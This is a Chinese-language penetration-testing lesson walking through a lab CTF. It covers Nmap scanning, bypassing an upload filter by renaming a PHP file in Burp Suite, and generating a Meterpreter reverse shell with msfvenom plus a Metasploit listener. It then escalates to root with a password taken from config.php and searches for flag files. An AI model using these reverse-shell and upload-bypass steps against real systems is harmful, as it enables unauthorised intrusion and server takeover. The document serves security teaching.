# 网络安全入门教程：P44：19.21.CTF综合测试(低难度)

## 概述
在本节课中，我们将学习如何对一个存在安全漏洞的Web应用程序进行综合渗透测试。我们将从信息收集开始，利用文件上传漏洞，最终获取目标服务器的最高控制权（root权限）。整个过程将涵盖模糊测试、漏洞利用、权限提升等关键步骤。

---

## 信息收集与目标确认
上一节我们介绍了课程背景，本节中我们来看看如何开始一次渗透测试。首先，我们需要明确攻击目标并收集信息。

攻击机IP地址：`192.168.253.12`
靶机IP地址：`192.168.253.13`





渗透测试的第一步是对目标进行信息探测，了解其开放的服务和版本信息。我们使用Nmap工具进行扫描。

以下是使用Nmap进行扫描的命令示例：
```bash
nmap -sV 192.168.253.13
```
这条命令会扫描目标IP地址开放的服务及其版本信息。

为了获取更全面的信息，我们可以使用Nmap的`-A`参数进行全功能扫描，并使用`-T4`参数加快扫描速度。
```bash
nmap -A -v -T4 192.168.253.13
```
通过扫描，我们可以发现目标服务器上运行的Web服务、数据库服务等，为后续的渗透测试提供方向。



---

## 利用文件上传漏洞
在信息收集阶段，我们可能已经发现目标系统存在一个后台登录入口和文件上传点。上一节我们通过模糊测试登录到后台，本节中我们来看看如何绕过文件上传过滤机制。

我们尝试直接上传一个PHP文件（例如`shell.php`），但系统只允许上传图片格式（如`.jpg`, `.gif`）的文件。为了上传PHP文件，我们需要绕过这个过滤机制。





以下是绕过上传过滤的步骤：
1.  将恶意PHP文件重命名为图片格式，例如 `shell.gif`。
2.  使用Burp Suite代理工具拦截上传请求。
3.  在Burp Suite中，将拦截到的数据包中的文件名从 `shell.gif` 修改为 `shell.php`。
4.  将修改后的数据包发送给服务器。

通过这种方式，我们欺骗了服务器的前端验证，成功上传了PHP文件。上传后，我们需要访问上传目录（如`/uploads/`）来确认文件是否成功上传并存在。



---



## 生成与上传WebShell
成功绕过上传验证后，我们需要上传一个功能完整的WebShell，以便在目标服务器上执行命令并建立反向连接。





这个过程分为两步：
1.  在攻击机上启动一个监听器，等待目标服务器反弹连接。
2.  生成一个PHP格式的反向Shell文件，并通过上述方法上传到目标服务器。



以下是使用Metasploit框架生成PHP反向Shell并启动监听的命令：
```bash
# 启动Metasploit框架
msfconsole



# 使用 exploit/multi/handler 模块
use exploit/multi/handler

# 设置Payload为PHP反向TCP连接
set PAYLOAD php/meterpreter/reverse_tcp

# 设置监听主机（攻击机）的IP地址
set LHOST 192.168.253.12

# 设置监听端口
set LPORT 4444

# 开始监听
run
```

在另一个终端，使用`msfvenom`生成PHP反向Shell文件：
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.253.12 LPORT=4444 -f raw > shell.php
```
生成后，需要手动编辑`shell.php`文件，删除文件开头的注释符`/*`，否则代码无法执行。

最后，按照“利用文件上传漏洞”一节中的步骤，将`shell.php`重命名为`shell.gif`，利用Burp Suite拦截并修改请求，最终将其上传到目标服务器的上传目录。

访问上传后的`shell.php`文件，如果一切正常，Metasploit的监听器会收到一个来自目标服务器的反向Shell连接，我们便获得了对目标服务器的一个基础控制权。

---

## 权限提升与获取Flag
在获得一个初始的Shell（通常是`www-data`用户权限）后，我们的目标是提升到最高权限（root），并找到Flag。

首先，检查当前用户权限：
```bash
whoami
id
```
如果当前用户不是root，我们需要进行提权。可以先尝试利用已知的密码信息。例如，在渗透过程中，我们可能在网站配置文件（如`config.php`）中发现了数据库密码。

尝试使用发现的密码切换到root用户：
```bash
su - root
# 输入在config.php中找到的密码
```
如果密码正确，我们将获得root权限，提示符会变为`#`。

获得root权限后，便可以在文件系统中寻找Flag。Flag通常位于根目录、用户主目录或特定题目目录下。
```bash
# 在根目录下查找包含flag的文件
find / -name "*flag*" 2>/dev/null

# 或直接查看常见的flag文件
cat /flag
cat /root/flag.txt
```
在CTF比赛中，最终目标就是读取Flag文件的内容。

---

## 总结
本节课我们一起学习了完成一次低难度CTF挑战的全过程。我们首先对目标进行信息收集，然后利用文件上传漏洞并绕过过滤机制，接着生成并上传WebShell以获取初始访问权限，最后通过发现的敏感信息（如数据库密码）进行权限提升，最终获得root权限并找到Flag。



通过本课的学习，需要掌握以下两点：
1.  熟练掌握各种安全工具（如Nmap, Burp Suite, Metasploit）的使用以及常见漏洞（如SQL注入、文件上传漏洞）的利用方式。
2.  在渗透测试或CTF比赛中，要有清晰的思路：信息收集 -> 漏洞发现与利用 -> 建立立足点 -> 权限提升 -> 达成目标（获取Flag或控制权）。整个过程需要耐心、细致，并逐步深入探测。